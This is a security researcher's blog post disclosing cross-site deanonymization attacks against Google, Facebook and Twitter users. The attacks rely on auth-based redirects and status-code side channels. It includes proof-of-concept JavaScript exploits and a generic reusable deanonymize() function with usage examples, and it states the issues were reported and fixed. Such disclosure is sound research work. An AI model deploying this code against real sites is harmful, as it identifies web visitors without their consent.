 ```yaml
---
layout: post
title: Novel Techniques for User Deanonymization Attacks
---
```

_**TL;DR**: By abusing auth-based redirections and user-specific URIs on modern web applications, an attacker can easily identify and deanonymize any given predefined group of users across the web._

Frankly, this is not really the first time I write about this kind of issues; I first drew attention to this in a thread I initially posted on the [webappsec mailing list](http://www.webappsec.org/lists/websecurity) almost a year ago<a href="#1">[1]</a>, but for some reason, that didn't receive enough attention. Hopefully, the implications I'm going to demonstrate in this writeup would be sufficient for people to start taking the appropriate precautions against this kind of privacy threats out there!

Well, it all started with me logging into my Gmail account as usual, just to notice a redirection being made to a URI specified in a `GET` parameter named "___continue___" with my email address in a second `GET` parameter named "___email___". Here's our interesting endpoint:
{% highlight css linenos %}
https://accounts.google.com/AccountChooser?continue=<URI>&email=<email_address>
{% endhighlight %}
The fun starts when you tamper the value of that "___email___" param, as when you do that, you wouldn't get redirected to the URI specified in the "___continue___" param, but instead, you get redirected to a Gmail re-authentication page! While if you just tamper the value of the "___continue___" param, you still get redirected as long as it's a "[*.google.com](#)" endpoint and the "___email___" param does point to your own email address.

So far, so good. Now, the question is, how could an attacker maliciously exploit such behavior? "Deanonymization" is the word! Here's how:


First, we get the URI of any embeddable resource hosted on "[*.google.com](#)"; a small icon/image would typically do the job. Then we set that "___continue___" param to the URI of that resource, and we set the "___email___" param to the email address of a given target we want to deanonymize (say "`target@gmail.com`"). Like this:
{% highlight css linenos %}
https://accounts.google.com/AccountChooser?continue=https://www.google.com/images/errors/robot.png&email=target@gmail.com
{% endhighlight %}
Now, we have an endpoint that points to an image resource when the email address of the current Gmail user is "`target@gmail.com`" but points to a webpage otherwise! Cool, here's a sweet exploit:
{% highlight javascript linenos %}
(function (email) {
    var endpoint = 'https://accounts.google.com/AccountChooser?continue=https://www.google.com/images/errors/robot.png&email=';
    var img = new Image();
    img.src = endpoint + email;
    window.onload = function() {
        if (img.height === 213 && img.width === 171) {
            alert('Deanonymized successfully!');
        }
    };
    document.documentElement.appendChild(img);
}('target@gmail.com'));
{% endhighlight %}
Note that I had reported this issue to the Google security team and it has been fixed a long time ago. ...end of story? Not so fast!

They initially pushed a short-term fix by implementing a regex-based blacklist (on top of their permissive whilelist), where they don't generally allow redirections to any endpoint that ends with a file extension such as "`.jpg`", "`.js`", "`.ico`", et al! Which basically means, if you can find an open redirect on "[*.google.com](#)" or even some endpoint that points to an embeddable resource but doesn't end with a file extension, you still have a working exploit! Great, but what if you are just not lucky enough to find something like that? Oh, no worries, the fun never ends:

Well, we know that as long as it's a valid "[*.google.com](#)" endpoint, a redirection shall happen; all we need here is another distinctive behavior that depends on something else other than embeddable resources. What possibly could that be? Oh, HTTP status codes come to the rescue! Here it goes:

What happens if we simply use an endpoint that points to a non-existent resource? Obviously, we get redirected to an error page, and an error page typically returns a "`404 Not Found`" status code. Yet another sweet exploit:
{% highlight javascript linenos %}
(function (email) {
    var endpoint = 'https://accounts.google.com/AccountChooser?continue=https://www.google.com/404&email=';
    var script = document.createElement('script');
    script.src = endpoint + email;
    script.onerror = function() {
        alert('Deanonymized successfully!');
    };
    document.documentElement.appendChild(script);
}('target@gmail.com'));
{% endhighlight %}
Oops! ...works like a charm (as of now, they fixed this by disallowing redirections on `GET` requests altogether) but with one little problem, Google makes use of the "`X-Content-Type-Options: nosniff`" header which tells a browser not to do content type sniffing, disallowing embedding resources that don't return the right MIME type. Luckily, Firefox [doesn't seem to respect that header](https://bugzilla.mozilla.org/show_bug.cgi?id=471020) while working with script elements, but Chrome does respect it! Well, not exactly! It turns out that Chrome doesn't respect it while working with external stylesheets and proceeds to interpret the resource anyway:
<br /><a href="/images/ChConsole.png" target="_blank"><img class="innerImg" src="/images/ChConsole-thumb.png" alt="Chrome console"></a><br />
So, all we have to do is use a link element instead of a script element when running on Chrome. Fair enough, here's one single generic exploit that combines all of these tricks together to deanonymize whoever you want, on whichever browser he uses, against whatever webapp you please:
<div style="font-size: 75%">
{% highlight javascript linenos %}
/**
 * Deanonymize a predefined group of users, given sufficient arguments.
 * @param attackMethod {string}, the method of the attack (either 'redirection' or 'statusCode').
 * @param endpoint {string}, the vulnerable endpoint with the user ID parameter last.
 * @param idList {array}, a list of the targeted users' IDs.
 * @param callback {function}, a callback function to pass all results to.
 * @return {array}, an ordered output array with boolean values.
 */
function deanonymize(attackMethod, endpoint, idList, callback) {
    var elNodes, testFn;
    var output = [];
    // Register a new cross-browser event listener.
    var addListener = (function() {
        return (window.addEventListener) ? window.addEventListener :
            // For IE8 and earlier versions support.
            function (evName, callback) {
                this.attachEvent('on' + evName, callback);
            };
    }());
    /**
     * Create new DOM elements.
     * @param tagName {string}, elements' tag name.
     * @return {array}, an array of DOM nodes.
     */
    var createElements = function(tagName) {
        var i, l, el;
        var elNodes = [];
        for (i = 0, l = idList.length; i < l; i++) {
            el = document.createElement(tagName);
            if (tagName !== 'link') {
                el.src = endpoint + idList[i];
            } else {
                el.href = endpoint + idList[i];
                el.rel = 'stylesheet';
            }
            if (tagName !== 'img') {
                el.onerror = function() {
                    this.parentElement.removeChild(this);
                };
            }
            elNodes.push(el);
            document.documentElement.appendChild(el);
        }
        return elNodes;
    };
    /**
     * Conduct tests in regard to a given function.
     * @param testFn {function}, a test function.
     * @return void.
     */
    var assess = function(testFn) {
        var i, l;
        for (i = 0, l = elNodes.length; i < l; i++) {
            if (testFn(elNodes[i])) {
                output.push(true);
            } else {
                output.push(false);
            }
        }
        callback(output);
    };
    if (attackMethod === 'redirection') {
        elNodes = createElements('img');
        /**
         * Test if an image node was loaded or not.
         * @param imageNode {object}, a DOM image node.
         * @return {boolean}.
         */
        testFn = function(imgNode) {
            if (imgNode.naturalHeight !== 0 && imgNode.naturalWidth !== 0) {
                return true;
            }
            return false;
        };
    } else if(attackMethod === 'statusCode') {
        elNodes = (/chrome/i.test(navigator.userAgent)) ? createElements('link') :
                           createElements('script');
        /**
         * Test if a given element is a child of `documentElement` or not.
         * @param el {object}, a DOM element.
         * @return {boolean}.
         */
        testFn = function(el) {
            if (el.parentNode !== document.documentElement) {
                return true;
            }
            return false;
        };
    }
    addListener.call(window, 'load', function() { assess(testFn); });
}

{% endhighlight %}
</div>

The story doesn't end here either, these issues are too widespread than you can imagine! I'm talking about Facebook, Twitter and the list goes on! Here's a couple of variations, just to mention a few:

As for Facebook, you could have simply deanonymized a bunch of users based on their profile IDs (using the generic exploit above) by doing something like:
{% highlight javascript linenos %}
deanonymize('statusCode', 'https://www.facebook.com/feed/export/service_redirect.php?service=1&id=', [10001, 10003], alert);
{% endhighlight %}
Now, if any of the users whose profile ID is one of these (10001, 10003) visits our website, he'll get immediately deanonymized! (of course that's fixed now.)

And as for Twitter, you could do it using the ID of any tweet(s) that belongs to your target(s). Like this:
{% highlight javascript linenos %}
deanonymize('statusCode', 'https://twitter.com/intent/retweet?tweet_id=', [10001, 10003], alert);
{% endhighlight %}
But why a tweet ID in particular? That's because I couldn't find any vulnerable user-specific endpoints there! So, alternatively, we exploit the fact that a twitter user cannot retweet his own tweets! (also fixed)

# Conclusion:
The modern web continues to prove itself as a very compromised zone; from timing attacks to nasty techniques like that, your identity and your data are, one way or another, prone to be exposed anytime as you navigate on. Do NOT browse while being authenticated to other web applications (or use <a href="https://www.requestpolicy.com" target="_blank">RequestPolicy</a> if possible). Do NOT allow scripts on untrusted websites (<a href="https://noscript.net">NoScript</a> is always a good idea; [AnonTab](/projects/#AnonTab) too!).

# References:
<a name="1" style="color: black">[1]: </a><a href="https://lists.w3.org/Archives/Public/public-webappsec/2015May/0043.html" target="_blank">https://lists.w3.org/Archives/Public/public-webappsec/2015May/0043.html</a><br />
[2]: <a href="https://hackerone.com/reports/44814" taget="_blank">https://hackerone.com/reports/44814</a>
